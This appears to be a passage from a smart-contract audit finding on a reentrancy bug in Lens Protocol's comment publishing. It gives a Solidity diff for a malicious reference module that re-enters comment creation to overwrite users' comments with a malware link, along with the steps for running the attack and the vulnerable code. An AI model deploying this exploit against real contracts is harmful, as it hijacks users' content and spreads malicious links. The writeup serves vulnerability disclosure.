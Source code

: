 ```diff
 
+    address l;
+    bool a;
     function processComment(
         uint256 profileId,
         uint256 profileIdPointed,
         uint256 pubIdPointed
-    ) external override {}
+    ) external override {
+        if (a) return;
+        a = true;
+        bytes memory garbage;
+        string memory handle = "attack.eth";
+        uint256 pid = ILensHub(l).getProfileIdByHandle(handle);
+        ILensHub(l).comment(
+            DataTypes.CommentData(
+                profileId,
+                // make their comment and thus their profile link
+                // to our malicious payload
+                "https://yourCommentIsNowOnALinkToMalware.com/forever",
+                profileIdPointed,
+                pubIdPointed,
+                ILensHub(l).getCollectModule(profileIdPointed, pubIdPointed),
+                garbage,
+                address(0x0),
+                garbage
+        ));
+    }
 
     function processMirror(
         uint256 profileId,
```

As for triggering the actual attack, the attacker first acquires a profile with a lot of followers either by organically growing a following, stealing a profile's NFT, or buying access to one. Next, the attacker publishes interesting content with the malicious ReferenceModule, and finally, the attacker publishes an extremely engaging/viral comment to that publication, which will cause lots of other people to respond to it. The comment will emit an event that contains the original comment information, but the module will be able to overwrite the actual published comment on the blockchain with the attacker's alternate content due to a reentrancy bug where the `pubCount` can be overwritten:

```solidity
    function _createComment(DataTypes.CommentData memory vars) internal {
        PublishingLogic.createComment(
            vars,
            _profileById[vars.profileId].pubCount + 1,
            _profileById,
            _pubByIdByProfile,
            _collectModuleWhitelisted,
            _referenceModuleWhitelisted
        );
        _profileById[vars.profileId].pubCount++;
    }
```
